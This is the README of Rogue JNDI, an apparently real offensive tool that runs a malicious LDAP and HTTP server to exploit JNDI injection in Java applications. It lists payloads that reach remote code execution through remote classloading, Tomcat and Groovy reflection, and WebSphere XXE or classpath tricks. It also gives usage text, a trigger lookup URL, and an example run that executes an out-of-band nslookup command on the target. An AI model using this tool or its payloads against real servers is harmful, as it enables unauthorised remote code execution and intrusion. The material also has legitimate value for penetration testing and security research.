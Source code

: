 ## Rogue JNDI
A malicious LDAP server for JNDI injection attacks.

### Description
The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.<br> 
In order to perform an attack, you can start these servers locally and then trigger a JNDI resolution on the vulnerable client, e.g.:
```java
InitialContext.doLookup("ldap://your_server.com:1389/o=reference");
```
It will initiate a connection from the vulnerable client to the local LDAP server.
Then, the local server responds with a malicious entry containing one of the payloads, that can be useful to achieve a Remote Code Execution. 

### Motivation
In addition to the known JNDI attack methods(via remote classloading in references), this tool brings new attack vectors by leveraging the power of [ObjectFactories](https://docs.oracle.com/javase/8/docs/api/javax/naming/spi/ObjectFactory.html).

### Supported payloads
* [RemoteReference.java](/src/main/java/artsploit/controllers/RemoteReference.java) - classic JNDI attack, leads to RCE via remote classloading, works up to jdk8u191 
* [Tomcat.java](/src/main/java/artsploit/controllers/Tomcat.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** 
* [Groovy.java](/src/main/java/artsploit/controllers/Groovy.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** + **groovy.lang.GroovyShell**
* [WebSphere1.java](/src/main/java/artsploit/controllers/WebSphere1.java) - leads to OOB XXE in **com.ibm.ws.webservices.engine.client.ServiceFactory**
* [WebSphere2.java](/src/main/java/artsploit/controllers/WebSphere2.java) - leads to RCE via classpath manipulation in **com.ibm.ws.client.applicationclient.ClientJ2CCFFactory**

### Usage
```
$ java -jar target/RogueJndi-1.0.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command     Command to execute on the target server (default: touch 
                      /usr/local/tomcat/temp/pwn.txt) 
    -n, --hostname    Local HTTP server hostname (required for remote 
                      classloading and websphere payloads) (default: 
                      192.168.0.166) 
    -l, --ldapPort    Ldap bind port (default: 1389)
    -p, --httpPort    Http bind port (default: 8000)
    --wsdl            [websphere1 payload option] WSDL file with XXE payload 
                      (default: /list.wsdl)
    --localjar        [websphere2 payload option] Local jar file to load (this 
                      file should be located on the remote server) (default: 
                      ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    --h2              [H2 database init script file (default: /h2)
    --js-payload-path     [Tomcat Nashorn payload option] Path to a .js file 
                          containing the payload served by the Tomcat 
                          controllers; overwrites the -c option (default: 
                          <empty string>)
    --groovy-payload-path [Groovy payload option] Path to a .groovy file 
                          containing the payload served by the Groovy 
                          controller, overwrites the -c option (default: 
                          <empty string>)
    -h, --help            Show this help
```
The most important parameters are the ldap server hostname (-n, should be accessible from the target) and the command you want to execute on the target server (-c).
 
As an alternative to the "-c" option, you can modify the [ExportObject.java](/src/main/java/artsploit/ExportObject.java) file by putting java code you want to execute on the target server. 

### Example:
```
$ java -jar target/RogueJndi-1.1.jar --command "nslookup your_dns_sever.com" --hostname "192.168.1.10"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.0.166:1389/o=h2 to artsploit.controllers.H2
Mapping ldap://192.168.0.166:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.0.166:1389/o=tomcat10 to artsploit.controllers.Tomcat10
Mapping ldap://192.168.0.166:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.0.166:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://192.168.0.166:1389/o=tomcat10-jshell to artsploit.controllers.Tomcat10JShell
Mapping ldap://192.168.0.166:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.0.166:1389/o=tomcat-jshell to artsploit.controllers.TomcatJShell
Mapping ldap://192.168.0.166:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.0.166:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://192.168.0.166:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.0.166:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://192.168.0.166:1389/o=generic to artsploit.controllers.Generic
```

### Building
Java v1.7+ and Maven v3+ required
```
mvn package
```

### Disclamer
This software is provided solely for educational purposes and/or for testing systems which the user has prior permission to attack.

### Special Thanks
* [Alvaro Muñoz](https://twitter.com/pwntester) and [Oleksandr Mirosh](https://twitter.com/olekmirosh) for the excellent [whitepaper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) on JNDI attacks
* [@zerothoughts](https://github.com/zerothoughts) for the inspirational [spring-jndi](https://github.com/zerothoughts/spring-jndi) repository
* [Moritz Bechler](https://github.com/zerothoughts) for the eminent [marshallsec](https://github.com/mbechler/marshalsec) research
* [Orange Tsai](https://twitter.com/orange_8361) and [Welk1n](https://github.com/welk1n) for the Apache + Groovy gadget

### Links
* An article about [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) in the Veracode Blog
* [How I Hacked Facebook Again! Unauthenticated RCE on MobileIron MDM](https://blog.orange.tw/2020/09/how-i-hacked-facebook-again-mobileiron-mdm-rce.html) 

### Authors
[Michael Stepankin](https://twitter.com/artsploit)